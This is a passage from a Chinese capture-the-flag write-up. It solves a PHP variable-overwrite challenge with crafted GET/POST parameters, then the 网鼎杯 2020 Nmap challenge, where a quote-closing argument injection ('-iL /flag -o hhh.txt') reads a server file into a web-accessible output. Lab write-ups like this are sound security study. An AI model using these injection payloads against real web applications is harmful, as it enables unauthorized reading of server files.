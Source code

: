 ```php
    exit($is); # cat
}

echo "the flag is: ".$flag;
```

那么要想获得flag，方法有2：
1、不能让$flag被重置，并需满足3个条件中的任意一个，使得对应的返回值$xx=$flag
2、绕过所有判断条件，让其输出$flag

#### 方法1：符合条件输出flag

对照传参变量进行分析

`POST	a=b:    $a = b	`
`GET     ?a=b:	$a = $b   `

先来分析法1的三个判断条件：

```php
# 1、需要flag参数的值为某键名，且改键名的值不为flag
# 满足该条件并讲输出参数赋值为flag即可：?handsome=flag&Na0H=flag&flag=Na0H
if($_GET['flag'] === $x && $x !== 'flag')	
# 2、get和post都不能传入flag值
# 很容易满足，直接get传入?yds=flag即可
if(!isset($_GET['flag']) && !isset($_POST['flag']))
# 3、为满足条件必须用get传参flag=flag => $flag=$flag才不会覆盖$flag原值
# 此时传入is=flag => $is=$flag即可使其输出$is为$flag的值
if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag')
```

如下：

![?handsome=flag&Na0H=flag&flag=Na0H](https://i.loli.net/2021/07/16/CrmglBu9o4eysGc.png)

![?yds=flag](https://i.loli.net/2021/07/16/pNRXd6Zr1Uhq83L.png)

![?is=flag&flag=flag](https://i.loli.net/2021/07/16/2e6slyj9GEnmiag.png)

#### 方法2：绕过判断输出flag

三个判断条件即：不能循环赋值，如`is=flag&flag=is`GET和POST至少有一个传入flag参数，且flag参数的值不能为flag

但这个没想出来-==有没有可行性也没确定，懂的师傅还请不吝赐教哈哈



### [网鼎杯 2020 朱雀组]Nmap

一个大大的Nmap，提示只能扫127，妥妥的命令执行了，后端应该是调用nmap的扫描语句，然后一开始想可能是利用Nmap的一些特殊参数，如下

```
-iL	  读取主机列表：eg：“-iL C:\ip.txt”
-o	  输出到xx，如 -o 123.txt
```

​	但是直接使用的话 如`127.0.0.1 -iL /flag -o 1`是失败的。尝试一下构造闭合（想写shell发现php被过滤了）
​	可以在最前面加一个单引号构造一个闭合：`127.0.0.1' -iL /flag -o hhh.txt'`；然后访问`hhh.txt`就行
